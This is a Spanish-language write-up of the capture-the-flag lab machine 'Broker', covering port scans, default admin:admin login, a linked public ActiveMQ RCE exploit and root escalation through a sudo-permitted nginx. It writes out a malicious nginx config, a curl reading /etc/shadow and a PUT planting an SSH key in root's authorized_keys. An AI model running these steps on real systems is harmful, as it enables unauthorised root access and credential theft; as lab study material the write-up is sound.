









Broker es una máquina Linux de fácil dificultad que aloja una versión de Apache ActiveMQ. La enumeración de la versión de Apache ActiveMQ muestra que es vulnerable a la ejecución de código remoto no autenticado, que se aprovecha para obtener acceso de usuario en el objetivo. La enumeración posterior a la explotación revela que el sistema tiene una configuración incorrecta de sudo que permite al usuario activemq ejecutar sudo /usr/sbin/nginx, que es similar a la reciente divulgación de Zimbra y se aprovecha para obtener acceso de root.


# Enumeración

Iniciamos con la enumeración de los puertos abiertos de la maquina.

```c
❯ nmap -p- --open --min-rate 5000 -Pn -n -vvv 10.10.11.243 -oG allportsScan

PORT      STATE SERVICE     REASON
22/tcp    open  ssh         syn-ack
80/tcp    open  http        syn-ack
1883/tcp  open  mqtt        syn-ack
5672/tcp  open  amqp        syn-ack
8161/tcp  open  patrol-snmp syn-ack
37237/tcp open  unknown     syn-ack
61613/tcp open  unknown     syn-ack
61614/tcp open  unknown     syn-ack
61616/tcp open  unknown     syn-ack

```

Encontramos una larga lista de puertos abiertos y varios servicios corriendo.

```c
❯ nmap -p22,80,1883,5672,8161,37237,61613,61614,61616 -sC -sV -vv -Pn 10.10.11.243 -oN servicesScan

PORT      STATE SERVICE    REASON  VERSION
22/tcp    open  ssh        syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ+m7rYl1vRtnm789pH3IRhxI4CNCANVj+N5kovboNzcw9vHsBwvPX3KYA3cxGbKiA0VqbKRpOHnpsMuHEXEVJc=
|   256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOtuEdoYxTohG80Bo6YCqSzUY9+qbnAFnhsk4yAZNqhM
80/tcp    open  http       syn-ack nginx 1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
1883/tcp  open  mqtt       syn-ack
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     ActiveMQ/Advisory/Consumer/Topic/#: 
|_    ActiveMQ/Advisory/MasterBroker: 
5672/tcp  open  amqp?      syn-ack
|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     AMQP
|     AMQP
|     amqp:decode-error
|_    7Connection from client using unsupported AMQP attempted
8161/tcp  open  http       syn-ack Jetty 9.4.39.v20210325
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-title: Error 401 Unauthorized
|_http-server-header: Jetty(9.4.39.v20210325)
37237/tcp open  tcpwrapped syn-ack
61613/tcp open  stomp      syn-ack Apache ActiveMQ
| fingerprint-strings: 
|   HELP4STOMP: 
|     ERROR
|     content-type:text/plain
|     message:Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolException: Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolConverter.onStompCommand(ProtocolConverter.java:258)
|     org.apache.activemq.transport.stomp.StompTransportFilter.onCommand(StompTransportFilter.java:85)
|     org.apache.activemq.transport.TransportSupport.doConsume(TransportSupport.java:83)
|     org.apache.activemq.transport.tcp.TcpTransport.doRun(TcpTransport.java:233)
|     org.apache.activemq.transport.tcp.TcpTransport.run(TcpTransport.java:215)
|_    java.lang.Thread.run(Thread.java:750)
61614/tcp open  http       syn-ack Jetty 9.4.39.v20210325
|_http-server-header: Jetty(9.4.39.v20210325)
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
| http-methods: 
|   Supported Methods: GET HEAD TRACE OPTIONS
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title.
61616/tcp open  apachemq   syn-ack ActiveMQ OpenWire transport
| fingerprint-strings: 
|   NULL: 
|     ActiveMQ
|     TcpNoDelayEnabled
|     SizePrefixDisabled
|     CacheSize
|     ProviderName 
|     ActiveMQ
|     StackTraceEnabled
|     PlatformDetails 
|     Java
|     CacheEnabled
|     TightEncodingEnabled
|     MaxFrameSize
|     MaxInactivityDuration
|     MaxInactivityDurationInitalDelay
|     ProviderVersion 
|_    5.15.15
3 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port5672-TCP:V=7.94SVN%I=7%D=7/19%Time=669AE5F6%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x
SF:10\xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\
SF:x01\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connection\x20from\x20
SF:client\x20using\x20unsupported\x20AMQP\x20attempted")%r(HTTPOptions,89,
SF:"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\xc0\x0c\x04\
SF:xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\0S\x1d\xc0M
SF:\x02\xa3\x11amqp:decode-error\xa17Connection\x20from\x20client\x20using
SF:\x20unsupported\x20AMQP\x20attempted")%r(RTSPRequest,89,"AMQP\x03\x01\0
SF:\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\xc0\x0c\x04\xa1\0@p\0\x02\0
SF:\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11amq
SF:p:decode-error\xa17Connection\x20from\x20client\x20using\x20unsupported
SF:\x20AMQP\x20attempted")%r(RPCCheck,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0
SF:\0\0\x19\x02\0\0\0\0S\x10\xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`
SF:\x02\0\0\0\0S\x18\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa1
SF:7Connection\x20from\x20client\x20using\x20unsupported\x20AMQP\x20attemp
SF:ted")%r(DNSVersionBindReqTCP,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x
SF:19\x02\0\0\0\0S\x10\xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0
SF:\0\0\0S\x18\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Conne
SF:ction\x20from\x20client\x20using\x20unsupported\x20AMQP\x20attempted")%
SF:r(DNSStatusRequestTCP,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\
SF:0\0\0\0S\x10\xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S
SF:\x18\xc0S\x01\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connection\x
SF:20from\x20client\x20using\x20unsupported\x20AMQP\x20attempted")%r(SSLSe
SF:ssionReq,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\
SF:xc0\x0c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01
SF:\0S\x1d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connection\x20from\x20cli
SF:ent\x20using\x20unsupported\x20AMQP\x20attempted")%r(TerminalServerCook
SF:ie,89,"AMQP\x03\x01\0\0AMQP\0\x01\0\0\0\0\0\x19\x02\0\0\0\0S\x10\xc0\x0
SF:c\x04\xa1\0@p\0\x02\0\0`\x7f\xff\0\0\0`\x02\0\0\0\0S\x18\xc0S\x01\0S\x1
SF:d\xc0M\x02\xa3\x11amqp:decode-error\xa17Connection\x20from\x20client\x2
SF:0using\x20unsupported\x20AMQP\x20attempted");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port61613-TCP:V=7.94SVN%I=7%D=7/19%Time=669AE5F1%P=x86_64-pc-linux-gnu%
SF:r(HELP4STOMP,27F,"ERROR\ncontent-type:text/plain\nmessage:Unknown\x20ST
SF:OMP\x20action:\x20HELP\n\norg\.apache\.activemq\.transport\.stomp\.Prot
SF:ocolException:\x20Unknown\x20STOMP\x20action:\x20HELP\n\tat\x20org\.apa
SF:che\.activemq\.transport\.stomp\.ProtocolConverter\.onStompCommand\(Pro
SF:tocolConverter\.java:258\)\n\tat\x20org\.apache\.activemq\.transport\.s
SF:tomp\.StompTransportFilter\.onCommand\(StompTransportFilter\.java:85\)\
SF:n\tat\x20org\.apache\.activemq\.transport\.TransportSupport\.doConsume\
SF:(TransportSupport\.java:83\)\n\tat\x20org\.apache\.activemq\.transport\
SF:.tcp\.TcpTransport\.doRun\(TcpTransport\.java:233\)\n\tat\x20org\.apach
SF:e\.activemq\.transport\.tcp\.TcpTransport\.run\(TcpTransport\.java:215\
SF:)\n\tat\x20java\.lang\.Thread\.run\(Thread\.java:750\)\n\0\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port61616-TCP:V=7.94SVN%I=7%D=7/19%Time=669AE5F0%P=x86_64-pc-linux-gnu%
SF:r(NULL,140,"\0\0\x01<\x01ActiveMQ\0\0\0\x0c\x01\0\0\x01\*\0\0\0\x0c\0\x
SF:11TcpNoDelayEnabled\x01\x01\0\x12SizePrefixDisabled\x01\0\0\tCacheSize\
SF:x05\0\0\x04\0\0\x0cProviderName\t\0\x08ActiveMQ\0\x11StackTraceEnabled\
SF:x01\x01\0\x0fPlatformDetails\t\0\x04Java\0\x0cCacheEnabled\x01\x01\0\x1
SF:4TightEncodingEnabled\x01\x01\0\x0cMaxFrameSize\x06\0\0\0\0\x06@\0\0\0\
SF:x15MaxInactivityDuration\x06\0\0\0\0\0\0u0\0\x20MaxInactivityDurationIn
SF:italDelay\x06\0\0\0\0\0\0'\x10\0\x0fProviderVersion\t\0\x075\.15\.15");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```


## Puerto 80

Al ir al sitio web observamos que se tiene un panel donde nos piden un usuario y una contraseña.



Haciendo uso de : `admin : admin` podremos acceder dicho login
# Explotación

Al ingresar el sitio observaremos un servicio `ActiveMQ` 




Investigando un poco encontraremos otro puerto abierto que corre el mismo servicio



Al buscar dicho servicio vemos que se tiene una vulnerabilidad de RCE:

- [ActiveMQ - RCE](https://github.com/duck-sec/CVE-2023-46604-ActiveMQ-RCE-pseudoshell)

# Escalda de privilegios

## Usuario activemq

Haciendo uso del exploit podremos obtener un Shell como el usuario activemq



Enumerando los privilegios del usuario veremos que el usuario actual puede ejecutar `/usr/sbin/nginx` 



Investigando un poco veremos que podemos iniciar un servidor web con esto, para ello necesitamos un archivo de configuración con el siguiente contenido:


```c
user root; 
events {
	worker_connections 1024;
	 }
 http {
  server {
	   listen 8008; 
	   root /;
	   autoindex on;
	   dav_methods PUT;
	 }
 }
```

`user root;`

- **Propósito**: Esta línea especifica que `nginx` debe ejecutarse con los privilegios del usuario `root`.
- **Implicaciones**: Ejecutar `nginx` como `root` es muy inseguro, ya que cualquier vulnerabilidad en `nginx` podría ser explotada para obtener control total del sistema.

`events { ... }`

- **Propósito**: La sección `events` contiene configuraciones relacionadas con el modelo de eventos de `nginx`.
    - **`worker_connections 1024;`**: Establece el número máximo de conexiones simultáneas que cada proceso de trabajo (`worker`) puede manejar. En este caso, el límite es 1024 conexiones.

`http { ... }`

- **Propósito**: La sección `http` contiene configuraciones específicas para manejar solicitudes HTTP.

`server { ... }`

- **Propósito**: Define un bloque de servidor virtual con configuraciones específicas.

`listen 8008;`

- **Propósito**: Indica a `nginx` que escuche en el puerto 8008 para recibir solicitudes HTTP.

`root /;`

- **Propósito**: Establece el directorio raíz de documentos desde el cual `nginx` servirá los archivos.
- **Implicaciones**: Configurar la raíz del documento en `/` es extremadamente inseguro, ya que expone todo el sistema de archivos al servidor web.

`autoindex on;`

- **Propósito**: Habilita la generación automática de un índice de directorio. Si no se encuentra un archivo de índice (como `index.html`), `nginx` mostrará una lista de archivos en el directorio.
- **Implicaciones**: Esto puede ser peligroso si se activa en directorios sensibles, ya que permite a los usuarios ver y acceder a todos los archivos en esos directorios.

`dav_methods PUT;`

- **Propósito**: Habilita el método HTTP `PUT` para WebDAV, permitiendo a los usuarios cargar archivos en el servidor.
- **Implicaciones**: Permitir el método `PUT` sin control adecuado puede permitir a usuarios no autorizados subir archivos al servidor, lo que podría ser explotado para almacenar contenido malicioso.

Luego de crear un archivo podemos ejecutar.

```c 
sudo /usr/sbin/nginx -c /tmp/new_file_config.conf
```



Luego para comprobar que nuestro servidor web se inicio correctamente ejecutamos :

```c
curl http://10.10.11.243:8008/etc/shadow
```



Vemos que efectivamente podemos leer archivos desde la raiz de la maquina victima

## Usuario root

Para poder escalar y obtener una shell como el usuario root, podemos ingresar nuestra `id_rsa.pub` en `/root/.ssh/authorized_keys`

Generamos nuestras claves:



Subimos a la maquina victima

```c
❯ curl -X PUT -d 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDGw+ZvTEyUy29aue4HJcGADsr5POimeDP6W8cdjDm2gT/KmF6AZH7YccW+LdyVJvA3XYb06Ru0kUh28w31nt4bWIltmUC6LPeIbcTy22HXSYhSXRjJB7wy6k4B19FZ25+82+xEGeCIG2FGwlHtdR3fp0wA7nIqCErVJKqfpYV+Uwn3y6k7PtpmX6/Fwivk1gPWaP9J5qO3hxNiY8f1wldiaUuS/twAmyJ+MXtKPXcjhfXWDG6VtiZI5KWNB2GS0GFNpl9PJFX6g5atsB5tB9aFHQ4jIliOJIPdJ/eWO6jkpceTl6UQgFxpFNvERa8MOyT9dYvF1NsjlFhVcnVOkb0Mkt/mZXM= b0ysie7e@Elysium' http:/10.10.11.243:8008/root/.ssh/authorized_keys
```

Luego podremos conectarnos haciendo uso de la `id_rsa`

```c
❯ ssh -i id_rsa root@10.10.11.243
```

